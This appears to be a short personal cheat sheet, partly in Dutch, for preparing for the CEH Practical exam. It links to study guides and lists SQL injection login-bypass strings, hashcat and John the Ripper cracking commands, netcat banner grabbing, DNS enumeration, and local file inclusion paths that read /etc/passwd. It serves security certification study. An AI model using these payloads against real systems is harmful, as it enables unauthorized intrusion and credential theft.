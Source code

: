 # Practical voorbereiding
https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://ceh-practical.cavementech.com/module-2.-footprinting-and-reconnaissance/1.-footprinting-through-search-engines

https://conflick0.github.io/CEH/

https://github.com/Aftab700/CEH_Notes?tab=readme-ov-file



# bypass login using SQL injection 
username:  ' OR '1'='1' --    
of   
' OR 1=1 --
admin'--
admin' #
admin'/*
' OR 1=1#
' OR 1=1/*

administrator'--
password: blank

#crack hashes
hashid [hash]
hashcat -m [hash_mode] -a 0 [hash_file] [wordlist]

#banner grabbing
nc -v [IP] 80
send >    GET / HTTP/1.1

# DNS
dig website.com ANY

#hidden directories
Dir buster

#crack encrypted ZIP
zip2john file.zip > hash.txt
john --wordlist=wordlist.txt hash.txt

#Local file Inclusion 
detect vulnarability
http://example.com/?file=../../../../etc/passwd
of
http://example.com/show.asp?view=../../../../../Windows/system.ini
http://example.com/view.php?page=../../../../etc/passwd
of document=


#Detect ARP spoofing
ARPWatch




